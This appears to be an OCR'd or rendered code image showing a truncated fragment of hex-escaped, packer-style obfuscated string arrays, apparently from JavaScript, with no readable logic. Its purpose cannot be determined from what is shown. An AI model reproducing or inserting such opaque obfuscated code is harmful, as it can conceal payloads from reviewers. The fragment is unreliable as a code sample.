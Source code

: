 5C\x31\x63\x5C\x31\x58\x5C\x4A\x5C\x31\x76\x27\x2C\x27\x5C\x37\x5C\x31\x67\x5C\x31\x30\x5C\x31\x66\x5C\x31\x71\x5C\x31\x75\x5C\x65\x5C\x61\x5C\x36\x5C\x31\x71\x27\x2C\x27\x5C\x36\x5C\x41\x5C\x49\x5C\x4B\x5C\x38\x5C\x39\x5C\x50\x5C\x6E\x5C\x62\x5C\x61\x27\x2C\x27\x5C\x34\x5C\x37\x5C\x37\x5C\x47\x5C\x41\x5C\x42\x5C\x33\x5C\x48\x5C\x34\x5C\x6C\x27\x2C\x27\x5C\x41\x5C\x49\x5C\x4B\x5C\x34\x5C\x6E\x5C\x62\x5C\x61\x5C\x34\x5C\x37\x5C\x37\x27\x2C\x27\x5C\x48\x5C\x66\x5C\x65\x5C\x43\x5C\x64\x5C\x38\x5C\x6C\x5C\x61\x5C\x34\x5C\x56\x27\x2C\x27\x5C\x37\x5C\x6B\x5C\x34\x5C\x64\x5C\x6E\x5C\x62\x5C\x61\x5C\x34\x5C\x37\x5C\x37\x27\x2C\x27\x5C\x36\x5C\x39\x5C\x36\x5C\x61\x5C\x33\x5C\x41\x5C\x49\x5C\x4B\x5C\x34\x5C\x6E\x27\x2C\x27\x5C\x77\x5C\x66\x5C\x33\x5C\x63\x5C\x47\x5C\x41\x27\x2C\x27\x5C\x4B\x5C\x4A\x5C\x34\x5C\x49\x5C\x4B\x5C\x4A\x5C\x77\x5C\x72\x5C\x49\x5C\x4B\x27\x2C\x27\x5C\x4C\x5C\x42\x5C\x33\x5C\x64\x5C\x43\x5C\x6E\x5C\x61\x5C\x39\x27\x2C\x27\x5C\x66\x5C\x31\x34\x5C\x31\x76\x5C\x77\x5C\x31\x42\x27\x2C\x27\x5C\x48\x5C\x31\x4F\x5C\x33\x5C\x55\x5C\x31\x63\x27\x2C\x27\x5C\x36\x5C\x66\x5C\x39\x5C\x42\x27\x2C\x27\x5C\x66\x5C\x33\x5C\x6B\x5C\x61\x5C\x34\x5C\x62\x5C\x33\x5C\x31\x64\x5C\x39\x5C\x36\x27\x2C\x27\x5C\x4B\x5C\x61\x5C\x39\x5C\x6E\x5C\x62\x5C\x61\x5C\x34\x5C\x37\x5C\x37\x5C\x47\x27\x2C\x27\x5C\x41\x5C\x49\x5C\x4B\x5C\x34\x5C\x6E\x5C\x77\x5C\x66\x5C\x33\x5C\x63\x5C\x47\x27\x2C\x27\x5C\x41\x5C\x6E\x5C\x36\x5C\x34\x5C\x66\x5C\x48\x5C\x33\x5C\x36\x5C\x47\x5C\x41\x27\x2C\x27\x5C\x31\x50\x5C\x6A\x5C\x61\x5C\x34\x5C\x64\x5C\x31\x30\x5C\x41\x5C\x4A\x5C\x49\x5C\x4B\x27\x2C\x27\x5C\x4C\x5C\x38\x5C\x33\x5C\x37\x5C\x62\x5C\x66\x5C\x39\x5C\x6B\x5C\x36\x5C\x39\x27\x2C\x27\x5C\x65\x5C\x64\x5C\x6C\x5C\x61\x5C\x39\x5C\x64\x5C\x31\x30\x5C\x37\x27\x2C\x27\x5C\x4C\x5C\x34\x5C\x43\x5C\x36\x5C\x77\x5C\x65\x5C\x66\x5C\x6C\x5C\x38\x5C\x33\x27\x2C\x27\x5C\x37\x5C\x6B\x5C\x34\x5C\x64\x5C\x6E\x5C\x61\x5C\x39\x27\x2C\x27\x5C\x38\x5C\x66\x5C\x65\x5C\x6B\x5C\x6C\x5C\x38\x5C\x65\x5C\x55\x5C\x64\x27\x2C\x27\x5C\x36\x5C\x65\x5C\x64\x5C\x37\x5C\x6E\x5C\x4C\x5C\x55\x5C\x39\x5C\x64\x5C\x38\x27\x2C\x27\x5C\x39\x5C\x31\x30\x5C\x39\x27\x2C\x27\x5C\x38\x5C\x34\x5C\x36\x5C\x34\x27\x2C\x27\x5C\x43\x5C\x66\x5C\x61\x27\x2C\x27\x5C\x55\x5C\x39\x5C\x38\x5C\x36\x5C\x77\x27\x2C\x27\x5C\x65\x5C\x6B\x5C\x33\x5C\x64\x27\x2C\x27\x5C\x31\x50\x5C\x6A\x5C\x61\x5C\x34\x5C\x64\x5C\x31\x30\x27\x2C\x27\x5C\x37\x5C\x62\x5C\x66\x5C\x65\x5C\x61\x5C\x61\x5C\x6A\x5C\x34\x5C\x66\x5C\x37\x27\x2C\x27\x5C\x47\x5C\x56\x5C\x33\x5C\x37\x5C\x31\x6D\x5C\x66\x5C\x33\x5C\x37\x5C\x39\x5C\x31\x4A\x27\x2C\x27\x5C\x34\x5C\x6A\x5C\x61\x5C\x33\x5C\x47\x5C\x56\x5C\x33\x5C\x37\x5C\x31\x6D\x5C\x36\x27\x2C\x27\x5C\x65\x5C\x65\x5C\x61\x5C\x6A\x5C\x34\x5C\x66\x5C\x47\x5C\x64\x5C\x65\x5C\x31\x6D\x27\x2C\x27\x5C\x61\x5C\x65\x5C\x62\x5C\x34\x5C\x36\x5C\x39\x5C\x65\x5C\x64\x5C\x47\x5C\x56\x27\x2C\x27\x5C\x31\x6D\x5C\x36\x5C\x65\x5C\x6B\x5C\x47\x27\x2C\x27\x5C\x4C\x5C\x37\x5C\x77\x5C\x34\x5C\x66\x5C\x33\x5C\x6C\x5C\x6A\x5C\x43\x5C\x36\x27\x2C\x27\x5C\x4C\x5C\x37\x5C\x77\x5C\x65\x5C\x55\x5C\x6C\x5C\x77\x5C\x39\x5C\x38\x5C\x6E\x27\x2C\x27\x5C\x62\x5C\x61\x5C\x39\x5C\x62\x5C\x31\x30\x27\x2C\x27\x5C\x63\x5C\x39\x5C\x61\x5C\x36\x5C\x33\x5C\x66\x5C\x6C\x5C\x61\x5C\x39\x5C\x64\x27\x2C\x27\x5C\x31\x30\x5C\x6E\x5C\x4C\x5C\x37\x5C\x64\x5C\x39\x5C\x6B\x5C\x6C\x5C\x36\x5C\x77\x27\x2C\x27\x5C\x43\x5C\x42\x5C\x6A\x5C\x64\x5C\x34\x5C\x39\x5C\x61\x5C\x31\x6D\x5C\x4C\x5C\x6B\x27\x2C\x27\x5C\x65\x5C\x37\x5C\x36\x5C\x6C\x5C\x63\x5C\x39\x5C\x61\x5C\x36\x5C\x33\x5C\x66\x27\x2C\x27\x5C\x6E\x5C\x4C\x5C\x6B\x5C\x65\x5C\x37\x5C\x36\x5C\x6C\x5C\x63\x5C\x39\x5C\x61\x27\x2C\x27\x5C\x36\x5C\x33\x5C\x66\x5C\x6C\x5C\x61\x5C\x39\x5C\x64\x5C\x31\x30\x5C\x6E\x5C\x4C\x27\x2C\x27\x5C\x37\x5C\x64\x5C\x39\x5C\x6B\x5C\x6C\x5C\x36\x5C\x77\x5C\x43\x5C\x42\x5C\x6A\x27\x2C\x27\x5C\x34\x5C\x66\x5C\x6C\x5C\x62\x5C\x65\x5C\x64\x5C\x36\x5C\x34\x5C\x39\x5C\x64\x27\x2C\x27\x5C\x77\x5C\x43\x5C\x42\x5C\x6A\x5C\x64\x5C\x34\x5C\x39\x5C\x61\x27\x2C\x27\x5C\x31\x75\x5C\x65\x5C\x39\x5C\x61\x5C\x33\x27\x2C\x27\x5C\x6C\x5C\x61\x5C\x39\x5C\x37\x5C\x36\x27\x2C\x27\x5C\x62\x5C\x61\x5C\x65\x5C\x64\x5C\x33\x27\x2C\x27\x5C\x4C\x5C\x37\x5C\x77\x5C\x65\x5C\x55\x5C\x6C\x5C\x77\x5C\x34\x5C\x42\x5C\x6A\x27\x2C\x27\x5C\x65\x5C\x50\x5C\x33\x5C\x66\x5C\x61\x5C\x34\x5C\x56\x27\x2C\x27\x5C\x77\x5C\x34\x5C\x42\x5C\x6A\x5C\x43\x5C\x66\x5C\x48\x5C\x33\x5C\x66\x5C\x6C\x27\x2C\x27\x5C\x39\x5C\x6E\x5C\x34\x27\x2C\x27\x5C\x36\x5C\x31\x64\x5C\x55\x5C\x31\x45\x5C\x66\x27\x2C\x27\x5C\x6E\x5C\x4B\x5C\x38\x5C\x39\x5C\x50\x5C\x6E\x5C\x62\x5C\x61\x5C\x34\x5C\x37\x27\x2C\x27\x5C\x37\x5C\x47\x5C\x41\x5C\x33\x5C\x66\x5C\x66\x5C\x65\x5C\x66\x5C\x6C\x5C\x6B\x27\x2C\x27\x5C\x65\x5C\x37\x5C\x36\x5C\x41\x5C\x49\x5C\x4B\x5C\x39\x5C\x6E\x5C\x62\x5C\x61\x27\x2C\x27\x5C\x34\x5C\x37\x5C\x37\x5C\x47\x5C\x41\x5C\x63\x5C\x34\x5C\x6E\x5C\x63\x5C\x34\x27\x2C\x27\x5C\x6C\x5C\x33\x5C\x32\x5C\x62\x5C\x61\x5C\x34\x5C\x42\x5C\x34\x5C\x36\x5C\x39\x27\x2C\x27\x5C\x64\x5C\x49\x5C\x31\x7A\x5C\x66\x5C\x66\x5C\x65\x5C\x66\x5C\x6E\x5C\x37\x30\x5C\x6E\x27\x2C\x27\x5C\x31\x4E\x5C\x65\x5C\x6E\x5C\x31\x4F\x5C\x65\x5C\x37\x5C\x36\x5C\x37\x5C\x6E\x5C\x31\x62\x27\x2C\x27\x5C\x65\x5C\x6E\x5C\x31\x63\x5C\x77\x5C\x65\x5C\x55\x5C\x6E\x5C\x32\x46\x5C\x31\x4F\x5C\x61\x27\x2C\x27\x5C\x33\x5C\x34\x5C\x37\x5C\x33\x5C\x6E\x5C\x31\x66\x5C\x77\x5C\x33\x5C\x62\x5C\x31\x30\x27\x2C\x27\x5C\x6E\x5C\x31\x69\x5C\x65\x5C\x43\x5C\x66\x5C\x6E\x5C\x31\x63\x5C\x77\x5C\x65\x5C\x66\x27\x2C\x27\x5C\x36\x5C\x62\x5C\x43\x5C\x36\x5C\x6E\x5C\x31\x66\x5C\x65\x5C\x38\x5C\x33\x5C\x32\x56\x27\x2C\x27\x5C\x66\x5C\x33\x5C\x42\x5C\x65\x5C\x50\x5C\x33\x5C\x31\x66\x5C\x61\x5C\x34\x5C\x37\x27\x2C\x27\x5C\x49\x5C\x6E\x5C\x4C\x5C\x42\x5C\x6C\x5C\x37\x5C\x43\x5C\x6A\x27\x2C\x27\x5C\x37\x5C\x61\x5C\x39\x5C\x38\x5C\x33\x5C\x31\x6A\x5C\x65\x5C\x48\x5C\x48\x5C\x61\x27\x2C\x27\x5C\x4C\x5C\x37\x5C\x65\x5C\x62\x5C\x39\x5C\x34\x5C\x61\x5C\x6C\x5C\x42\x5C\x65\x27\x2C\x27\x5C\x6A\x5C\x39\x5C\x